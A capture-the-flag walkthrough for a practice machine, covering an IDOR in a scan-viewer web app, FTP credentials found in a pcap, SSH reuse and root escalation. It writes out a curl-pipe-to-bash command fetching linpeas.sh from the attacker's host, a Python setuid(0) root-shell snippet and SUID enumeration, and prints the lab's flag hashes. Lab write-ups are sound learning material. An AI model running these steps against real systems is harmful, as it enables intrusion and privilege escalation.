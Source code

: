# Tasks

[**How many TCP ports are open?**](#task-1)

[**After running a "Security Snapshot", the browser is redirected to a path of the format ```/something/id```, where ```id``` represents the id number of the scan. What is the ```something```?**](#task-2)

[**Are you able to get to other users' scans?**](#task-3)

[**What is the ID of the PCAP file that contains sensative data?**](#task-4)

[**Which application layer protocol in the pcap file can the sensetive data be found in?**](#task-5)

[**We've managed to collect nathan's FTP password. On what other service does this password work?**](#task-6)

[**User Flag**](#user-flag)

[**What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?**](#task-8)

[**Root Flag**](#root-flag)

# Tools Used

- nmap
- gtfobins (kind of)

# Skills used

- Exploiting _IDOR_
- Little bit of forensics (checking _pcap_ traffic for credentials, pretty much it lmao)
- Searching for files with _SUID_ bit set and exploiting that

# Solutions

## Task 1

**Command:**

```
nmap -sCV [IP Address]
```

![image](https://github.com/user-attachments/assets/98695f42-0e02-4f68-9d4a-3e47b0d589ca)

**Answer: 3**

## Task 2

Just go to the website:

![image](https://github.com/user-attachments/assets/b3d0014a-1777-499c-ac22-5a133283f4bf)

That's not the landing page but the page that we need to go to find the answer, looks like an _IDOR_ might be possible.

**Answer: data**

## Task 3

![image](https://github.com/user-attachments/assets/e4430975-b9ed-43a1-895b-255b11708962)

Yes, _IDOR_ was very much possible.

**Answer: yes**

## Task 4

_Yes_

![image](https://github.com/user-attachments/assets/c8e73b82-31a1-4e5a-8cce-d9dc37170969)

**Answer: 0**

## Task 5

Check the _pcap_ file, and we'll find this:

![image](https://github.com/user-attachments/assets/d2b071e7-9fab-4e69-b345-6283af83114f)

**Answer: FTP**

Also, we're gonna be using that info a bunch so yeah.

## Task 6

So, remember how _ssh_ was open based on the scan? Yeah, that's what I thought lmao.

**Answer: ssh**

## User Flag

Log in to _ssh_, then you'll find this:

![image](https://github.com/user-attachments/assets/a1ee20f5-a706-4f7c-a223-b37d617af766)

**Answer: c96619759ff232fdc96286ad0d0ce8aa**

## Task 8

Ok so at first, I thought using this was enough to find the vulnerable binary:

```
find / -user root -perm -4000 2>/dev/null
```

This basically looks for all files with escalated privileges. Usually I use that to find vulnerable binaries.

![image](https://github.com/user-attachments/assets/e1a919cd-8bd6-493d-a7d4-1e6b35502a96)

This is what I found, but none of them were useful.

I tried to narrow it down to just _/usr/bin_ to really make sure, but even then, none of the binaries with _SUID_ set are actually useful.

So, I looked at a writeup to see how to find the vulnerable binary, apparently I gotta use _linpeas_ (or another enumeration tool/method).

Basically, the vulnerable binary can set _SUID_ via _CAP_SUID_.

So, here's what I found:

![image](https://github.com/user-attachments/assets/dede01f8-4f88-4fbd-9f8f-575b17fae8a2)

I like how it's even highlighted lol.

Anyways, here's how that happened:

Host _python web server_ in the directory with _linpeas.sh_ in it:

![image](https://github.com/user-attachments/assets/142eb20e-110e-40ba-9940-13aa3c329760)

Curl that in the _ssh_ session to run it, use this to run it directly after curling:

```
curl http://[Host Machine Address]:[Port]/linpeas.sh | bash
```

![image](https://github.com/user-attachments/assets/c5e2ea11-eaf6-4d14-a028-199c96e53d71)

And let it rip

**Answer: /usr/bin/python3.8**

## Root Flag

Use this script (since _python_ is vulnerable):

```
import os
os.setuid(0)
os.system("/bin/bash")
```

You already know the first and third lines (considering that's pretty common to do), but _os.setuid_ should be self explanatory lmao.

Also, we got that from [**GTFObins**](https://gtfobins.github.io/gtfobins/python/#suid), this specifically:

![image](https://github.com/user-attachments/assets/803c48be-a88f-4699-b126-834c7c4125bc)

Should look like this:

![image](https://github.com/user-attachments/assets/c6fb2453-4c61-4ff8-87c6-48f25ee37bdf)

Anyways, here's the flag:

![image](https://github.com/user-attachments/assets/5c1ad47f-6b86-4754-9d2d-0f5cc8cda986)

**Answer: 8d947f4a0f87dde1f469156dfa2fc22e**
